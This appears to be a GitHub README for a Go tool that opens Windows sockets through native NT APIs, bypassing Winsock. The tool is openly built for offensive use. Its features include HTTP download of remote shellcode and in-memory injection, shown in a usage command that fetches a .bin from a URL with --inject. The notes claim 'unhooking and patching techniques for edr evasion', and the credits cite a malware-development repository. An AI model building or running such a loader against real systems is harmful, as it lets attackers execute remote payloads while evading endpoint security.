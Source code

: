 # go-nt-socket

a pure go implementation of windows sockets using native nt apis, avoiding winsock entirely.

## demo
https://github.com/user-attachments/assets/1ab131dd-34d5-4e29-90e4-8cbefde25d5a



## credits

this project builds upon research and techniques from various security researchers:
- [Original NT Socket Research](https://www.x86matthew.com/view_post?id=ntsockets) by x86matthew
- [Rust Implementation](https://github.com/Whitecat18/Rust-for-Malware-Development/tree/main/NtSockets) by [@5mukx](https://twitter.com/5mukx) (like a lot of my projects, shoutout him lol)
- my go-native-syscall library for nt api access and access to rtl calls for heap ops

## features

- tcp/udp socket creation using afd endpoints
- dns resolution via udp sockets  
- http file downloading
- shellcode injection using private heap allocation
- file operations using nt apis
- content verification and retry mechanisms

## usage
```bash
# from project root
go run ./server/fileserver.go

# this serves test files on `http://localhost:8080/test.txt` and `http://localhost:8080/calc.bin`
# then open a new shell to perform the download or injection passing either as the url based on ur desired flag :3

```


### file download mode
```bash

./go-nt-socket.exe http://example.com/file.txt output.txt
```

### shellcode injection mode
```bash
./go-nt-socket.exe http://example.com/shellcode.bin dummy --inject
```

**important**: when using `--inject` mode, you must pass `dummy` (or any string) as the output file parameter. this parameter is ignored during injection but required by the argument parser.

## building

```bash
export CGO_ENABLED=1 # bc of go-native-syscall (ironic isn't it)
go mod tidy
go build -o go-nt-socket.exe ./cmd
```

## notes

- requires windows (uses nt apis)
- shellcode injection uses heap allocation to avoid go garbage collector interference  
- includes content verification to detect memory corruption
- implements manual http/1.0 client without standard library dependencies
- uses unhooking and patching techniques for edr evasion




